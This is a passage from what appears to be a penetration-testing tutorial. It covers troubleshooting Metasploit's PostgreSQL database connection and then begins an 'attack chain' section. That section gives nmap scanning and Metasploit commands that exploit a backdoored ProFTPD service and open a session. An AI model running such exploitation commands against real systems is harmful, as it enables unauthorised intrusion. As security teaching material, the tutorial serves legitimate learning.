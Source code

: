 
### **❌ Problem 4: Database Connection Issues in Metasploit**

**What You See:**
```bash
[*] No database connection available
Database connection isn't established
```

**How to Fix:**
```bash
# Step 1: Restart PostgreSQL service
systemctl restart postgresql

# Step 2: Reinitialize Metasploit database
msfdb delete
msfdb init
msfdb start

# Step 3: Verify database connectivity
msfconsole -q
db_status

# Step 4: Alternative manual connection
db_connect postgres:password@localhost/msf
```

**Prevention Tips:**
- Always start PostgreSQL before Metasploit
- Regularly check database status during long sessions
- Keep database credentials properly configured
- Monitor disk space for database operations

---

## 🔗 Using Hash Cracking with Other Tools

### **🎯 Complete Attack Chain: Exploitation → Hash Extraction → Credential Testing**

This shows how hash cracking fits into a full penetration testing workflow.

#### **Phase 1: Initial System Compromise**
```bash
# Network discovery and exploitation
nmap -sS -sV target_network
msfconsole
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS target_ip
exploit

# Verify access and privileges
sessions -i 1
getuid
sysinfo
```
